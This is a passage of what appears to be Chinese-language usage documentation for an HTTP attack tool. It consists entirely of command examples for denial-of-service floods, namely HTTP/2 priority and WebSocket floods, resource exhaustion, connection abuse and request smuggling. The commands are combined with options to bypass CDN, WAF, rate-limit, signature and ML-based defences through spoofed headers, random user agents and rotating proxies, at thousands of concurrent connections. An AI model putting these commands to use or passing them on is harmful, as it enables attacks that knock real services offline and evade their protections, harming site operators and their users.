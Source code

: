 ```bash
  -headers "Cache-Control:no-cache" \
  -c 2000 \
  -i 0
```

### 6.3 特殊场景组合
```bash
# CDN绕过 + WAF绕过
./http-tool -url "https://example.com" \
  -attack "http2priority" \
  -bypass "tls,rate-limit" \
  -headers "X-Forwarded-For:%RANDIPV4%;User-Agent:%UA%" \
  -cookies "session=%RANDSTR%" \
  -proxy-type local \
  -proxy-failover \
  -c 1000 \
  -t 3600

# WebSocket + HTTP/2 混合攻击
./http-tool -url "wss://example.com/ws" \
  -attack "ws-flood,http2flood" \
  -ws-message "%RANDSTR%" \
  -http2-settings "SETTINGS_MAX_CONCURRENT_STREAMS=100" \
  -c 500 \
  -pr 2
```

### 6.4 智能攻击组合
```bash
# 自适应攻击模式
./http-tool -url "https://example.com" \
  -attack "smart-flood" \
  -bypass "auto-detect,adaptive-bypass" \
  -c 1000 \
  -t 3600

# 全方位防护绕过
./http-tool -url "https://example.com" \
  -attack "mixed-protocol" \
  -bypass "learning-bypass,pattern-bypass" \
  -headers "X-Forwarded-For:%XFF%" \
  -ua-type random \
  -proxy-type api \
  -proxy-failover

# 资源耗尽攻击
./http-tool -url "https://example.com" \
  -attack "resource-exhaust,connection-abuse" \
  -bypass "timing-bypass,fragment-bypass" \
  -c 2000 \
  -max-conns-per-host 200

# 高级特征绕过
./http-tool -url "https://example.com" \
  -attack "protocol-confusion,request-smuggling" \
  -bypass "ml-bypass,signature-bypass" \
  -fp random \
  -headers "X-Custom-%RANDSTR%: %RANDSTR%"
```
